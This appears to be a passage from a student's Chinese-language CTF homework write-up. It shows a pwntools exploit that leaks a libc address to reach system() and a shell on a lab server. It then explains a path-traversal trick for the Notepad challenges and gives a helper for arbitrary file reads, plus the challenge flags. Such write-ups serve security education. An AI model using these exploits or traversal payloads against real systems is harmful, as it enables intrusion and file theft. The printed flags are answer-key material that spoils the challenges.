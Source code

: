 ### Exploit
```python
from pwn import *

# r = process('./lab')
r = remote('10.113.184.121', 10043)

idx = b'-5'
r.sendlineafter(b'idx: ', idx)
printf_addr = int(r.recvline().strip().decode().split(' ')[-1])
system_addr = printf_addr - 0x606f0 + 0x50d70
log.info(f'printf address = {hex(printf_addr)}')
log.info(f'system address = {hex(system_addr)}')

# raw_input()
r.sendlineafter(b'val: ', str(system_addr).encode())

r.interactive()
```

## HW-Notepad-Stage1
Flag: `flag{Sh3l1cod3_but_y0u_c@nnot_get_she!!}`

### 解題流程與思路
這一題是等到助教給出hint才之到大概的方向，我一開始也是有一些初步的方向，不過不知道怎麼把卡住的地方解決，最後也是求助@davidchen學長才知道確切的方法。

1. 首先，感謝@csotaku 的提示與切入方向，既然知道是path traversal的洞，那就代表某個地方我們可以輸入一些簡單的payload，例如`./`，而這個地方還必須和讀檔有關係，想到這邊我們的選擇也呼之欲出，洞就在==openfile==的地方，我們輸入的notename會和`res.res`以及`.txt` concatenate在一起，，不過這邊有個問題是既然我們要順利讀檔，在說明中就有提到檔案名稱是==flag_user==，而不是flag_user.txt，這樣的話我們就應該要想辦法把`.txt` bypass掉

    想到這邊我先說我的看法，如果要把`.txt` bypass掉，一開始是參考[飛飛的網站範例](https://feifei.tw/file-path-traversal/)中有針對URL based的path traversal類似的情況在payload的最後面加上null byte，所以我想可以用同樣的方式bypass(`\x00`)，但是怎樣的沒有成功，另外我還有一個疑問，res.res的部分到底是不是一個path，如果不是，就代表我們也需要把它蓋掉或是用其他方法leak出來之類的；當然如果是path的話就沒差了，但我很常陷入這種沒有必要的迴圈轉不出來，其實現在仔細想想，他一定是一個path，因為他最後也是要和`{notename}.txt`接在一起，如果他不是path就一定讀不到
    
2. 反正後來和@davidchen討論完才大致知道如何寫script，簡單來說，因為path的限制長度是128 bytes，所以`res.res` + {notename} + `.txt`基本上長度不會超過128 bytes，如果會的話就會被擠出去，所以我們能夠控制的部分就是notename，雖然我們不知道`res.res`的長度多少，但我們可以爆破，讓這三者串在一起會大於128 bytes並且沒有被寫入path的部分就是`.txt`，這樣的話就可以順利讀到flag的內容，具體怎麼做就是一直加上`/`

## HW-Notepad-Stage2
Flag: `flag{why_d0_y0u_KnoM_tH1s_c0WW@nd!?}`

### 解題流程與思路
:::success
Special Thanks @cs-otaku For the most of the Inspiration of the WP
:::
* Recap
    在上一題，我們已經知道了他的前端漏洞為path traversal，換言之是不是可以做到任意讀取的功能，如下:
    ```python
    def read_any_file(file_name):
        payload = b'../../../../../../' + b'/' * (89 - len(file_name)) + file_name
        offset = 0
        res = ''
        while(True):
            ret = dealing_cmd(r, 5, payload, offset=str(offset).encode())
            # print(ret, len(ret))
            if ret != 'Read note failed.' and ret != "Couldn't open the file.":
                res += ret
                offset += 128
            else:
                log.success(res)
